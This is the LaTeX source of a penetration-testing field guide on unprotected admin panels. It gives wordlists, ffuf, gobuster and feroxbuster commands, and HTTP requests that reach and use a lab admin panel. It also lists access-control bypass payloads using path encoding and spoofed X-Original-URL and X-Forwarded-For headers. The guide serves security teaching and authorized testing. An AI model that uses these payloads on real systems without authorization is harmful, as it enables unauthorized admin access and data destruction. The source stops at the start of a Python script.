\documentclass[11pt,letterpaper]{article}

% ============================================================
% COMPREHENSIVE FIELD GUIDE: Unprotected Admin Functionality
% Broken Access Control Vulnerability Assessment and Remediation
% ============================================================

% ---------- Page & typography ----------
\usepackage[margin=1in]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage{microtype}
\usepackage{amssymb}
\usepackage{parskip}

% ---------- Structure ----------
\usepackage{booktabs}
\usepackage{longtable}
\usepackage{tabularx}
\usepackage{array}
\usepackage{multirow}
\usepackage{enumitem}
\setlist[itemize]{leftmargin=*, itemsep=0.35em, topsep=0.35em}
\setlist[enumerate]{leftmargin=*, itemsep=0.35em, topsep=0.35em}

% ---------- Links ----------
\usepackage[hidelinks,colorlinks=true,linkcolor=blue!60!black,urlcolor=blue!70!black]{hyperref}
\usepackage{url}

% ---------- Graphics ----------
\usepackage{graphicx}
\usepackage{tikz}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, fit, backgrounds}

% ---------- Code listings ----------
\usepackage{xcolor}
\usepackage{listings}
\usepackage{fancyvrb}

\definecolor{codeframe}{rgb}{0.85,0.85,0.85}
\definecolor{codenums}{rgb}{0.40,0.40,0.40}
\definecolor{codebg}{rgb}{0.97,0.97,0.97}
\definecolor{codegreen}{rgb}{0.0,0.5,0.0}
\definecolor{codepurple}{rgb}{0.58,0.0,0.82}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}

% Robust inline code (handles %, _, #, etc.)
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\newcommand{\kbd}[1]{\fbox{\texttt{\small #1}}}
\newcommand{\filepath}[1]{\texttt{#1}}

\lstdefinelanguage{http}{
  morekeywords={GET,POST,PUT,DELETE,PATCH,HEAD,OPTIONS,HTTP,Host,User-Agent,Accept,Accept-Language,Content-Type,Authorization,Cookie,Set-Cookie,Location,Origin,Referer,Cache-Control,X-Requested-With,X-Forwarded-For,X-Original-URL,X-Rewrite-URL},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{javascript}{
  morekeywords={break,case,catch,class,const,continue,debugger,default,delete,do,else,export,extends,finally,for,function,if,import,in,instanceof,let,new,return,super,switch,this,throw,try,typeof,var,void,while,with,yield,await,async,true,false,null,undefined,require,module,exports},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\lstdefinelanguage{python}{
  morekeywords={and,as,assert,break,class,continue,def,del,elif,else,except,False,finally,for,from,global,if,import,in,is,lambda,None,nonlocal,not,or,pass,raise,return,True,try,while,with,yield,self,print},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]',
  morestring=[b]",
  morestring=[b]'''
}

\lstdefinelanguage{bash}{
  morekeywords={sudo,apt,apt-get,cat,cd,chmod,chown,cp,curl,echo,export,grep,head,kill,less,ln,ls,mkdir,mv,printf,ps,pwd,rm,sed,ssh,tail,touch,uname,which,whoami,python,python3,pip,ffuf,gobuster,dirb,nikto,wfuzz,feroxbuster},
  sensitive=true,
  morecomment=[l]{\#},
  morestring=[b]"
}

\lstdefinelanguage{java}{
  morekeywords={abstract,assert,boolean,break,byte,case,catch,char,class,const,continue,default,do,double,else,enum,extends,false,final,finally,float,for,if,implements,import,instanceof,int,interface,long,native,new,null,package,private,protected,public,return,short,static,strictfp,super,switch,synchronized,this,throw,throws,transient,true,try,void,volatile,while,@PreAuthorize,@Secured,@RolesAllowed},
  sensitive=true,
  morecomment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]",
  morestring=[b]'
}

\lstdefinelanguage{robotstxt}{
  morekeywords={User-agent,Disallow,Allow,Sitemap,Crawl-delay},
  sensitive=false,
  morecomment=[l]{\#}
}

\lstset{
  basicstyle=\ttfamily\small,
  columns=fullflexible,
  breaklines=true,
  breakatwhitespace=false,
  frame=single,
  rulecolor=\color{codeframe},
  backgroundcolor=\color{codebg},
  framerule=0.6pt,
  numbers=left,
  numberstyle=\tiny\color{codenums},
  stepnumber=1,
  numbersep=10pt,
  showstringspaces=false,
  tabsize=2,
  upquote=true,
  keywordstyle=\color{codeblue}\bfseries,
  commentstyle=\color{codegreen}\itshape,
  stringstyle=\color{codepurple},
  xleftmargin=2em,
  framexleftmargin=1.5em
}

% ---------- Callout environments ----------
\usepackage{tcolorbox}
\tcbuselibrary{skins,breakable}

\newtcolorbox{warningbox}[1][]{
  colback=red!5!white,
  colframe=red!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{infobox}[1][]{
  colback=blue!5!white,
  colframe=blue!75!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{tipbox}[1][]{
  colback=green!5!white,
  colframe=green!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

\newtcolorbox{notebox}[1][]{
  colback=yellow!5!white,
  colframe=yellow!60!black,
  fonttitle=\bfseries,
  title=#1,
  breakable
}

% Legacy callout for compatibility
\newenvironment{callout}[1]{%
  \begin{tcolorbox}[colback=gray!10!white,colframe=gray!60!black,fonttitle=\bfseries,title=#1,breakable]
}{%
  \end{tcolorbox}
}

% ---------- Document metadata ----------
\title{\textbf{Comprehensive Field Guide:\\Unprotected Admin Functionality}\\[0.5em]
\large Broken Access Control---Discovery, Exploitation, Evidence Collection, Automation, and Remediation Patterns\\[0.3em]
\normalsize Version 2.0}
\author{Web Application Security Assessment Reference}
\date{January 21, 2026}

\begin{document}
\maketitle

\begin{abstract}
\noindent This comprehensive field guide addresses one of the most critical and frequently encountered broken access control vulnerabilities: \textbf{unprotected administrative functionality}. This vulnerability occurs when administrative endpoints, panels, or actions are exposed without proper server-side authorization checks, allowing unauthorized users to access privileged functionality simply by navigating to the correct URL.

This guide provides security professionals, penetration testers, and developers with:
\begin{itemize}
  \item Deep understanding of the vulnerability's root causes and manifestations
  \item Systematic discovery and enumeration methodologies
  \item Step-by-step manual exploitation techniques using interception proxies
  \item Complete automation scripts for reproducible testing
  \item Comprehensive evidence collection and reporting frameworks
  \item Multi-language remediation patterns with production-ready code examples
  \item Testing checklists and reference materials
\end{itemize}

\noindent\textbf{Target Audience:} Penetration testers, security engineers, application security specialists, developers, and anyone involved in web application security assessment or secure development practices.
\end{abstract}

\tableofcontents
\newpage

% ============================================================
\section{Introduction and Scope}
% ============================================================

\subsection{Document Purpose}

This field guide serves as a practical, hands-on reference for identifying, validating, and remediating unprotected administrative functionality in web applications. Unlike theoretical security documentation, this guide emphasizes:

\begin{itemize}
  \item \textbf{Reproducible workflows} that can be applied consistently across different applications
  \item \textbf{Real-world examples} based on common vulnerability patterns observed in production applications
  \item \textbf{Automation capabilities} for efficient testing and reliable evidence collection
  \item \textbf{Defensive guidance} that developers can implement immediately
\end{itemize}

\subsection{Vulnerability Classification}

Unprotected admin functionality falls under several well-known vulnerability taxonomies:

\begin{table}[h]
\centering
\begin{tabular}{@{}lll@{}}
\toprule
\textbf{Standard} & \textbf{Classification} & \textbf{Reference} \\
\midrule
OWASP Top 10 2021 & A01:2021 Broken Access Control & \url{owasp.org/Top10} \\
CWE & CWE-285: Improper Authorization & \url{cwe.mitre.org} \\
CWE & CWE-425: Direct Request (Forced Browsing) & \url{cwe.mitre.org} \\
CWE & CWE-862: Missing Authorization & \url{cwe.mitre.org} \\
CVSS v3.1 & Typically High to Critical (7.0--10.0) & Context-dependent \\
\bottomrule
\end{tabular}
\caption{Vulnerability classification across security standards}
\end{table}

\subsection{Ethical and Legal Framework}

\begin{warningbox}[Critical: Authorized Testing Only]
This guide must only be used on systems where you have explicit written authorization to perform security testing. This includes:
\begin{itemize}
  \item Dedicated security training labs (e.g., PortSwigger Web Security Academy, OWASP WebGoat, HackTheBox)
  \item Your own test environments and applications
  \item Systems covered by a valid penetration testing agreement or bug bounty program scope
  \item Internal applications where you have organizational authorization
\end{itemize}

\textbf{Unauthorized access to computer systems is illegal in most jurisdictions and may result in criminal prosecution, civil liability, and professional consequences.}
\end{warningbox}

\subsection{Intended Audience and Prerequisites}

This guide assumes familiarity with:

\begin{itemize}
  \item HTTP protocol fundamentals (methods, headers, status codes, cookies)
  \item Web application architecture (client-server model, sessions, authentication)
  \item Basic usage of web interception proxies (Burp Suite, OWASP ZAP)
  \item Command-line operations and basic scripting (Python preferred)
  \item Common web technologies (HTML, JavaScript, backend frameworks)
\end{itemize}

% ============================================================
\section{Conceptual Foundation: Understanding Access Control}
% ============================================================

\subsection{The Access Control Triad}

Effective access control in web applications relies on three fundamental components working together:

\begin{enumerate}
  \item \textbf{Identification}: Claiming an identity (e.g., providing a username)
  \item \textbf{Authentication (AuthN)}: Proving that identity claim (e.g., correct password, valid token)
  \item \textbf{Authorization (AuthZ)}: Verifying permission to perform the requested action
\end{enumerate}

\begin{figure}[h]
\centering

\begin{tikzpicture}[
  box/.style={rectangle, draw, rounded corners, minimum width=3cm, minimum height=1cm, align=center},
  arrow/.style={-{Stealth[length=3mm]}, thick}
]
  \node[box, fill=blue!20] (id) at (0,0) {Identification\\``I am alice''};
  \node[box, fill=green!20] (authn) at (5,0) {Authentication\\``Prove it''};
  \node[box, fill=orange!20] (authz) at (10,0) {Authorization\\``Can you do this?''};
  
  \draw[arrow] (id) -- (authn);
  \draw[arrow] (authn) -- (authz);
  
  \node[below=0.5cm of id, text width=3cm, align=center, font=\small] {Username, email, API key ID};
  \node[below=0.5cm of authn, text width=3cm, align=center, font=\small] {Password, MFA, certificate};
  \node[below=0.5cm of authz, text width=3cm, align=center, font=\small] {Roles, permissions, policies};
\end{tikzpicture}
\caption{The access control decision chain}
\end{figure}

\subsection{Function-Level Access Control}

Function-level access control (also called ``vertical'' access control) restricts access based on user privilege levels. Administrative functions should only be accessible to users with administrative roles.

\begin{infobox}[The Core Authorization Question]
For every protected action, the application must answer:
\begin{center}
\emph{Does \textbf{subject S} have \textbf{permission P} to perform \textbf{action A} on \textbf{object O} in \textbf{context C}?}
\end{center}

Example: Does \emph{user ``alice'' (S)} have \emph{admin rights (P)} to \emph{delete (A)} \emph{user ``carlos'' (O)} in \emph{this organization (C)}?
\end{infobox}

\subsection{Types of Access Control Failures}

Access control vulnerabilities manifest in several patterns:

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}lX@{}}
\toprule
\textbf{Type} & \textbf{Description} \\
\midrule
Vertical privilege escalation & Low-privilege user accesses high-privilege functions (e.g., regular user accessing admin panel) \\
Horizontal privilege escalation & User accesses another user's data at the same privilege level (e.g., user A views user B's profile) \\
Context-dependent bypass & Access control fails under specific conditions (e.g., different HTTP method, modified headers) \\
Missing function-level control & Privileged functions exist without any authorization checks \\
Insecure direct object reference & Authorization check exists but can be bypassed via parameter manipulation \\
\bottomrule
\end{tabularx}
\caption{Access control failure taxonomy}
\end{table}

\subsection{Why Unprotected Admin Panels Exist}

Understanding the root causes helps both in discovery and remediation:

\begin{enumerate}
  \item \textbf{Security through obscurity}: Developers assume ``hidden'' URLs won't be found
  \item \textbf{Development artifacts}: Admin interfaces created for testing never get secured
  \item \textbf{Framework misconfiguration}: Security middleware not applied to all routes
  \item \textbf{Incomplete security reviews}: Admin routes excluded from security assessment scope
  \item \textbf{Client-side only enforcement}: UI elements hidden but backend remains accessible
  \item \textbf{Inconsistent authorization}: Some admin routes protected, others forgotten
  \item \textbf{Legacy code}: Old admin interfaces predate security frameworks
  \item \textbf{Third-party components}: Admin panels from plugins or libraries not properly secured
\end{enumerate}

\subsection{The Fallacy of Security Through Obscurity}

\begin{warningbox}[Critical Misconception]
\textbf{Assumption:} ``Nobody will guess the admin URL \code{/super-secret-admin-panel-xyz123}''

\textbf{Reality:} Admin URLs are discoverable through:
\begin{itemize}
  \item Search engines indexing pages with admin links
  \item JavaScript source code containing route definitions
  \item \code{robots.txt} and \code{sitemap.xml} disclosing paths
  \item Browser history, bookmarks, and referrer headers leaking URLs
  \item Error messages revealing directory structures
  \item Brute-force enumeration of common paths
  \item Source code repositories (GitHub, GitLab) exposing routes
  \item Archived versions on Wayback Machine
\end{itemize}

\textbf{Correct approach:} Assume every URL is discoverable; enforce authorization server-side.
\end{warningbox}

% ============================================================
\section{Discovery Methodologies}
% ============================================================

This section details systematic approaches to discovering unprotected admin functionality.

\subsection{Phase 1: Passive Reconnaissance}

Passive discovery techniques gather information without directly interacting with the target in ways that might trigger alerts.

\subsubsection{robots.txt Analysis}

The \code{robots.txt} file instructs web crawlers which paths to avoid indexing. Ironically, this often reveals sensitive paths:

\begin{lstlisting}[language=robotstxt,caption={Example robots.txt revealing admin paths}]
User-agent: *
Disallow: /admin/
Disallow: /administrator/
Disallow: /administrator-panel/
Disallow: /manage/
Disallow: /api/admin/
Disallow: /internal/
Disallow: /backup/
Sitemap: https://example.com/sitemap.xml
\end{lstlisting}

\begin{lstlisting}[language=http,caption={Fetching robots.txt}]
GET /robots.txt HTTP/1.1
Host: target.example.com
User-Agent: Mozilla/5.0 (compatible; SecurityAudit/1.0)
Accept: text/plain
\end{lstlisting}

\subsubsection{Sitemap Analysis}

XML sitemaps may inadvertently include admin URLs:

\begin{lstlisting}[language=http,caption={Fetching sitemap}]
GET /sitemap.xml HTTP/1.1
Host: target.example.com

GET /sitemap_index.xml HTTP/1.1
Host: target.example.com
\end{lstlisting}

Common sitemap locations to check:
\begin{itemize}
  \item \code{/sitemap.xml}
  \item \code{/sitemap_index.xml}
  \item \code{/sitemap/sitemap.xml}
  \item \code{/sitemaps/sitemap.xml}
  \item Check \code{robots.txt} for sitemap declarations
\end{itemize}

\subsubsection{JavaScript Source Analysis}

Modern single-page applications often expose route definitions in JavaScript bundles:

\begin{lstlisting}[language=javascript,caption={Example route definitions in JavaScript (vulnerable)}]
// Routes extracted from main.bundle.js
const routes = [
  { path: '/', component: HomePage },
  { path: '/login', component: LoginPage },
  { path: '/dashboard', component: Dashboard },
  { path: '/admin', component: AdminPanel },           // Target!
  { path: '/admin/users', component: UserManagement }, // Target!
  { path: '/admin/settings', component: Settings },    // Target!
  { path: '/api/admin/*', component: AdminAPI }        // Target!
];
\end{lstlisting}

\begin{tipbox}[JavaScript Analysis Techniques]
\begin{enumerate}
  \item \textbf{Browser DevTools}: Network tab $\rightarrow$ filter by JS $\rightarrow$ search for ``admin'', ``manage'', ``panel''
  \item \textbf{Source maps}: Look for \code{.map} files that reveal original source
  \item \textbf{Webpack bundle analysis}: Use tools like \code{source-map-explorer}
  \item \textbf{Regex patterns}: Search for route patterns like \code{path:.*admin}
\end{enumerate}
\end{tipbox}

\subsubsection{HTML Comment Analysis}

Developers sometimes leave revealing comments in HTML source:

\begin{lstlisting}[language=bash,caption={Searching HTML for admin references}]
# Download and search HTML
curl -s https://target.example.com/ | grep -i "admin\|manage\|panel\|internal"

# Search for HTML comments
curl -s https://target.example.com/ | grep -oP '<!--.*?-->'
\end{lstlisting}

\subsubsection{Search Engine Dorking}

Search engines may have indexed admin pages:

\begin{lstlisting}[language=bash,caption={Google dork examples (use responsibly)}]
# Find indexed admin pages
site:target.example.com inurl:admin
site:target.example.com intitle:"admin" OR intitle:"administrator"
site:target.example.com inurl:manage OR inurl:panel

# Find exposed configuration files
site:target.example.com filetype:conf OR filetype:config
site:target.example.com filetype:env

# Search for login pages
site:target.example.com inurl:login intitle:admin
\end{lstlisting}

\subsubsection{Wayback Machine Analysis}

Historical snapshots may reveal paths no longer linked but still accessible:

\begin{lstlisting}[language=bash,caption={Wayback Machine URL discovery}]
# Using waybackurls tool
echo "target.example.com" | waybackurls | grep -i admin

# Using gau (GetAllUrls)
gau target.example.com | grep -i "admin\|manage\|panel"
\end{lstlisting}

\subsection{Phase 2: Active Enumeration}

Active techniques directly probe the target for admin endpoints.

\subsubsection{Common Admin Path Wordlist}

Comprehensive list of common administrative paths:

\begin{lstlisting}[caption={admin-paths.txt wordlist}]
/admin
/admin/
/admin/login
/admin/dashboard
/administrator
/administrator/
/administrator-panel
/administratorpanel
/admin-panel
/adminpanel
/admin_area
/admin_panel
/adminarea
/admincp
/adminconsole
/manage
/manage/
/manager
/management
/panel
/controlpanel
/control-panel
/cp
/cpanel
/console
/backoffice
/back-office
/backend
/back-end
/internal
/private
/staff
/super
/superadmin
/root
/webadmin
/sysadmin
/system
/admin.php
/admin.asp
/admin.aspx
/admin.html
/administrator.php
/wp-admin
/wp-admin/
/phpmyadmin
/phpMyAdmin
/pma
/adminer
/adminer.php
/_admin
/.admin
/admin123
/adminlogin
/useradmin
/portal
/portal/admin
/modcp
/moderator
/adm
/admin/admin
/secure
/secure/admin
/admin2
/admin_login
/site-admin
/siteadmin
\end{lstlisting}

\subsubsection{Directory Brute-Forcing with ffuf}

\begin{lstlisting}[language=bash,caption={ffuf enumeration for admin paths}]
# Basic admin path enumeration
ffuf -w admin-paths.txt -u https://target.example.com/FUZZ \
     -mc 200,301,302,307,401,403 \
     -o admin-discovery.json

# With authentication cookie (testing as authenticated user)
ffuf -w admin-paths.txt -u https://target.example.com/FUZZ \
     -H "Cookie: session=abc123xyz" \
     -mc 200,301,302,307 \
     -o admin-discovery-auth.json

# Recursive enumeration
ffuf -w admin-paths.txt -u https://target.example.com/admin/FUZZ \
     -recursion -recursion-depth 2 \
     -mc 200,301,302,307

# With rate limiting
ffuf -w admin-paths.txt -u https://target.example.com/FUZZ \
     -rate 50 -mc 200,301,302,307
\end{lstlisting}

\subsubsection{Directory Enumeration with Gobuster}

\begin{lstlisting}[language=bash,caption={Gobuster enumeration}]
# Basic enumeration
gobuster dir -u https://target.example.com/ \
             -w admin-paths.txt \
             -s 200,301,302,307,401,403 \
             -o gobuster-results.txt

# With specific extensions
gobuster dir -u https://target.example.com/ \
             -w admin-paths.txt \
             -x php,asp,aspx,jsp,html \
             -s 200,301,302,307

# With custom headers
gobuster dir -u https://target.example.com/ \
             -w admin-paths.txt \
             -H "Authorization: Bearer token123" \
             -H "X-Custom-Header: value"
\end{lstlisting}

\subsubsection{Feroxbuster for Recursive Discovery}

\begin{lstlisting}[language=bash,caption={Feroxbuster recursive enumeration}]
# Recursive enumeration with smart filtering
feroxbuster -u https://target.example.com \
            -w admin-paths.txt \
            --depth 3 \
            --filter-status 404 \
            --output ferox-results.txt

# With multiple wordlists
feroxbuster -u https://target.example.com \
            -w admin-paths.txt \
            -w /usr/share/seclists/Discovery/Web-Content/common.txt \
            --depth 2
\end{lstlisting}

\subsection{Phase 3: Response Analysis}

Interpreting responses correctly is crucial for identifying true positives.

\begin{table}[h]
\centering
\begin{tabularx}{\textwidth}{@{}llX@{}}
\toprule
\textbf{Status} & \textbf{Interpretation} & \textbf{Next Steps} \\
\midrule
200 OK & Endpoint exists, content returned & Analyze content for admin functionality; test as different user roles \\
301/302 & Redirect (may lead to admin) & Follow redirect; analyze final destination \\
307/308 & Temporary/permanent redirect & Follow redirect; note if redirecting to login \\
401 & Authentication required & Attempt with valid session; test default credentials \\
403 & Forbidden (authorization enforced) & Test bypass techniques; verify consistent enforcement \\
404 & Not found (likely doesn't exist) & May be intentional 404 for sensitive paths; test with valid session \\
500 & Server error & May indicate partial access; analyze error details \\
\bottomrule
\end{tabularx}
\caption{HTTP status code interpretation guide}
\end{table}

\begin{notebox}[Important: Context Matters]
A 200 OK response doesn't automatically mean the vulnerability exists. You must verify that:
\begin{enumerate}
  \item The content returned is actually administrative in nature
  \item The content is accessible to users who should not have access
  \item The functionality works (not just the UI renders)
\end{enumerate}
\end{notebox}

% ============================================================
\section{Manual Exploitation Workflow}
% ============================================================

This section provides a detailed, step-by-step methodology for manually validating and exploiting unprotected admin functionality.

\subsection{Pre-Assessment Setup}

\subsubsection{Tool Configuration}

\begin{enumerate}
  \item \textbf{Burp Suite Configuration}
  \begin{itemize}
    \item Proxy listener on \code{127.0.0.1:8080}
    \item Browser configured to use Burp proxy
    \item Project file created for evidence retention
    \item Target scope defined to avoid out-of-scope traffic
  \end{itemize}
  
  \item \textbf{Browser Configuration}
  \begin{itemize}
    \item Burp's built-in browser (recommended) or FoxyProxy extension
    \item Multiple browser profiles for different user contexts
    \item Developer tools readily accessible (F12)
  \end{itemize}
  
  \item \textbf{Test Accounts}
  \begin{itemize}
    \item Unauthenticated session (no cookies)
    \item Low-privilege user account (e.g., ``wiener:peter'')
    \item Admin account if available for comparison
  \end{itemize}
\end{enumerate}

\subsubsection{Establishing Baseline Behavior}

Before testing, understand normal application behavior:

\begin{lstlisting}[language=http,caption={Baseline: Unauthenticated request to protected resource}]
GET /my-account HTTP/1.1
Host: target.example.com
User-Agent: Mozilla/5.0

-- Expected Response --
HTTP/1.1 302 Found
Location: /login
\end{lstlisting}

\begin{lstlisting}[language=http,caption={Baseline: Authenticated request to protected resource}]
GET /my-account HTTP/1.1
Host: target.example.com
Cookie: session=validSessionToken123
User-Agent: Mozilla/5.0

-- Expected Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>... account dashboard ...</html>
\end{lstlisting}

\subsection{Step 1: Discovery and Initial Access}

\subsubsection{Method A: robots.txt Discovery}

\begin{lstlisting}[language=http,caption={Step 1A: Check robots.txt}]
GET /robots.txt HTTP/1.1
Host: 0a1234567890.web-security-academy.net
User-Agent: Mozilla/5.0

-- Response --
HTTP/1.1 200 OK
Content-Type: text/plain

User-agent: *
Disallow: /administrator-panel
\end{lstlisting}

\subsubsection{Method B: Common Path Guessing}

\begin{lstlisting}[language=http,caption={Step 1B: Testing common admin paths}]
GET /admin HTTP/1.1
Host: target.example.com

-- Response (404 - Not this path) --
HTTP/1.1 404 Not Found

---

GET /administrator HTTP/1.1
Host: target.example.com

-- Response (404 - Not this path) --
HTTP/1.1 404 Not Found

---

GET /administrator-panel HTTP/1.1
Host: target.example.com

-- Response (200 - Found!) --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<h1>Administrator Panel</h1>
<div>
  <a href="/administrator-panel/delete?username=carlos">Delete user: carlos</a>
  <a href="/administrator-panel/delete?username=wiener">Delete user: wiener</a>
</div>
</body>
</html>
\end{lstlisting}

\subsection{Step 2: Validating Missing Authorization}

The critical test: access the admin panel without authentication or as a low-privilege user.

\subsubsection{Test 2A: Unauthenticated Access}

\begin{lstlisting}[language=http,caption={Unauthenticated access to admin panel}]
GET /administrator-panel HTTP/1.1
Host: 0a1234567890.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml
Accept-Language: en-US,en;q=0.5
Connection: close

-- Vulnerable Response --
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 2847

<!DOCTYPE html>
<html>
<head><title>Admin Panel</title></head>
<body>
<section class="maincontainer">
  <h1>Users</h1>
  <div>
    <span>carlos - </span>
    <a href="/administrator-panel/delete?username=carlos">Delete</a>
  </div>
  <div>
    <span>wiener - </span>
    <a href="/administrator-panel/delete?username=wiener">Delete</a>
  </div>
</section>
</body>
</html>
\end{lstlisting}

\begin{tipbox}[Evidence Collection Point]
This response is critical evidence. In Burp Suite:
\begin{enumerate}
  \item Right-click the request $\rightarrow$ ``Add to project notes''
  \item Right-click the request $\rightarrow$ ``Send to Repeater'' for further testing
  \item Take a screenshot of both request and response
  \item Note the exact timestamp for your report
\end{enumerate}
\end{tipbox}

\subsubsection{Test 2B: Low-Privilege User Access}

If authentication is required, test with a standard user account:

\begin{lstlisting}[language=http,caption={Low-privilege user accessing admin panel}]
GET /administrator-panel HTTP/1.1
Host: 0a1234567890.web-security-academy.net
Cookie: session=lowPrivilegeUserSessionToken
User-Agent: Mozilla/5.0

-- Vulnerable Response --
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<html>
<body>
<h1>Users</h1>
<!-- Admin content accessible to non-admin user! -->
...
</body>
</html>
\end{lstlisting}

\subsection{Step 3: Proving Impact}

Demonstrating the vulnerability's impact validates the severity. In lab environments, this typically means executing an admin action like user deletion.

\begin{lstlisting}[language=http,caption={Executing admin action: Delete user carlos}]
GET /administrator-panel/delete?username=carlos HTTP/1.1
Host: 0a1234567890.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml
Referer: https://0a1234567890.web-security-academy.net/administrator-panel
Connection: close

-- Response --
HTTP/1.1 302 Found
Location: /administrator-panel
Set-Cookie: session=abc123; Secure; HttpOnly

-- Following Redirect --
GET /administrator-panel HTTP/1.1
Host: 0a1234567890.web-security-academy.net
Cookie: session=abc123

-- Response Shows carlos Deleted --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<h1>Users</h1>
<div>
  <span>wiener - </span>
  <a href="/administrator-panel/delete?username=wiener">Delete</a>
</div>
<!-- carlos no longer listed - deletion successful -->
</body>
</html>
\end{lstlisting}

\begin{warningbox}[Production Environment Caution]
In production environments, \textbf{never} execute destructive actions without explicit authorization. Instead:
\begin{itemize}
  \item Document that the action \emph{appears} available
  \item Use read-only admin functions to prove access (view user lists, settings)
  \item Request explicit permission for any state-changing actions
  \item Work with the client to create test accounts for deletion
\end{itemize}
\end{warningbox}

\subsection{Step 4: Burp Suite Repeater Workflow}

Burp Repeater allows systematic testing and evidence collection.

\subsubsection{Role Comparison Testing}

\begin{enumerate}
  \item \textbf{Capture unauthenticated request}: Send admin panel request to Repeater
  \item \textbf{Test without cookies}: Remove all cookies, send request
  \item \textbf{Test with low-privilege cookie}: Add standard user session, send request
  \item \textbf{Test with admin cookie} (if available): Add admin session for baseline
  \item \textbf{Compare responses}: Document differences (or lack thereof)
\end{enumerate}

\begin{lstlisting}[language=http,caption={Repeater: Testing with different authentication states}]
-- Tab 1: No Authentication --
GET /administrator-panel HTTP/1.1
Host: target.example.com
(no Cookie header)

-- Tab 2: Standard User --
GET /administrator-panel HTTP/1.1
Host: target.example.com
Cookie: session=standardUserToken

-- Tab 3: Admin User (baseline) --
GET /administrator-panel HTTP/1.1
Host: target.example.com
Cookie: session=adminUserToken

-- Analysis --
If Tab 1 or Tab 2 returns admin content similar to Tab 3,
authorization is not properly enforced.
\end{lstlisting}

% ============================================================
\section{Bypass Techniques for Partial Protections}
% ============================================================

Some applications implement incomplete access controls. This section covers common bypass techniques.

\subsection{HTTP Method Manipulation}

\begin{lstlisting}[language=http,caption={Testing different HTTP methods}]
-- Original blocked request --
GET /admin HTTP/1.1
Host: target.example.com

HTTP/1.1 403 Forbidden

-- Try POST --
POST /admin HTTP/1.1
Host: target.example.com
Content-Length: 0

HTTP/1.1 200 OK (Bypass!)

-- Try HEAD --
HEAD /admin HTTP/1.1
Host: target.example.com

-- Try arbitrary method --
NOTREAL /admin HTTP/1.1
Host: target.example.com
\end{lstlisting}

\subsection{URL Path Manipulation}

\begin{lstlisting}[language=http,caption={Path manipulation bypass attempts}]
-- Original blocked --
GET /admin HTTP/1.1
403 Forbidden

-- Path variations --
GET /Admin HTTP/1.1
GET /ADMIN HTTP/1.1
GET /admin/ HTTP/1.1
GET //admin HTTP/1.1
GET /./admin HTTP/1.1
GET /admin/. HTTP/1.1
GET /%61%64%6d%69%6e HTTP/1.1  (URL encoded)
GET /admin%00 HTTP/1.1          (null byte)
GET /admin%20 HTTP/1.1          (trailing space)
GET /admin..;/ HTTP/1.1
GET /;/admin HTTP/1.1
GET /.;/admin HTTP/1.1
\end{lstlisting}

\subsection{Header-Based Bypasses}

Some applications check custom headers or trust certain header values:

\begin{lstlisting}[language=http,caption={Header-based bypass attempts}]
GET /admin HTTP/1.1
Host: target.example.com
X-Original-URL: /admin
X-Rewrite-URL: /admin

GET / HTTP/1.1
Host: target.example.com
X-Original-URL: /admin

GET /admin HTTP/1.1
Host: target.example.com
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: localhost
X-Real-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1

GET /admin HTTP/1.1
Host: target.example.com
X-Custom-IP-Authorization: 127.0.0.1
\end{lstlisting}

\subsection{Referrer-Based Bypass}

\begin{lstlisting}[language=http,caption={Referrer manipulation}]
GET /admin HTTP/1.1
Host: target.example.com
Referer: https://target.example.com/admin
\end{lstlisting}

\subsection{Parameter Pollution}

\begin{lstlisting}[language=http,caption={Parameter-based bypass attempts}]
GET /admin?role=admin HTTP/1.1
Host: target.example.com

GET /admin?admin=true HTTP/1.1
Host: target.example.com

GET /admin?debug=true HTTP/1.1
Host: target.example.com

GET /admin?access=granted HTTP/1.1
Host: target.example.com
\end{lstlisting}

% ============================================================
\section{Automated Exploitation Scripts}
% ============================================================

Automation improves reproducibility and enables efficient testing.

\subsection{Python Script: Comprehensive Admin Discovery}

\begin{lstlisting}[language=python,caption={Full-featured admin panel discovery script}]
#!/usr/bin/env python3
"""
Unprotected Admin Functionality - Discovery and Exploitation Script
For authorized security testing only.

Usage: python3 admin_discovery.py <BASE_URL> [--delete-user <username>]
Example: python3 admin_discovery.py https://lab.example.com
Example: python3 admin_discovery.py https://lab.example.com --delete-user carlos
"""

import sys
import argparse
import requests
import urllib3
from urllib.parse import urljoin, urlparse
from typing import Optional, List, Tuple

# Disable SSL warnings for lab environments
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

